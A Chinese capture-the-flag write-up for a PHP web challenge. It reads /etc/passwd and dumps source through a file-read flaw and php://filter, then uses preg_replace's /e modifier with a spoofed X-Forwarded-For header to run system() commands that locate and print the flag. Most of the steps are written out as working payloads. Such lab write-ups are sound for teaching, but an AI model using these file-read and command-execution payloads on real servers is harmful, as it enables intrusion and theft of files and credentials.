### 一. 题目描述



对着屏幕一顿乱点之后，发现只有“设备维护中心”有反应：


### 二. 分析

#### 2.1 查看网页源代码：



发现一个可以点击的url，点完之后url变成这样：


把view-source去掉：



将参数改成/etc/passwd:



**发现存在文件读取漏洞**。

尝试读取index.php:



使用file文件协议读取index.php：




#### 2.2 php伪协议文件读取

在上述尝试失败之后，可以利用php://filter伪协议读取：

`php://filter/read=convert.base64-encode/resource=index.php`



将base64编码解码得到一段可疑代码：


#### 2.3 preg_replace函数

这个函数存在命令执行漏洞。

函数的功能如下所示：

语法

preg_replace ( $pattern , $replacement , $subject  )

搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。

参数说明：

```php
$pattern: 要搜索的模式，可以是字符串或一个字符串数组。
$replacement: 用于替换的字符串或字符串数组。
$subject: 要搜索替换的目标字符串或字符串数组。
```
命令执行漏洞：当函数第一个参数用//e修饰，第三个参数与第一个参数相同时，第二个参数可以当作php代码执行。
即preg_replace("/123/e", "phpinfo()", "123");可以执行phpinfo()函数。

#### 2.4 伪造XFF头来登入系统

使用burpsuite抓包改包修改XFF：

下面的命令可以查看php的信息，只做试验用。

构造payload：`index.php?pat=/123/e&rep=phpinfo()&sub=123`



X-Forwarded-For那项是自己加上去的，右边是返回的包结果。

再构造payload：`index.php?pat=/123/e&rep=system("find+-iname+flag")&sub=123`，获取flag文件的存放位置：

(+在url中会被解释成空格，这里用%20也行)


由上图的返回结果可知，flag在文件夹`./s3chahahaDir/flag`下面，所以可以构造下面的payload得到flag的内容：

``index.php?pat=/123/e&rep=system("cat+./s3chahahaDir/flag")&sub=123``



此时根本没有结果，所以猜测flag是个文件夹下面还有文件，构造下面的payload：

`index.php?pat=/123/e&rep=system("cd+./s3chahahaDir/flag%26%26ls")&sub=123`

%26被url解释成&，命令&&表示同时执行两条命令。



读取flag.php的文件内容：

`index.php?pat=/123/e&rep=system("cat+./s3chahahaDir/flag/flag.php")&sub=123`



最后的flag如下：

`cyberpeace{aa18c21bc847ca88f2a337e444ac329b`

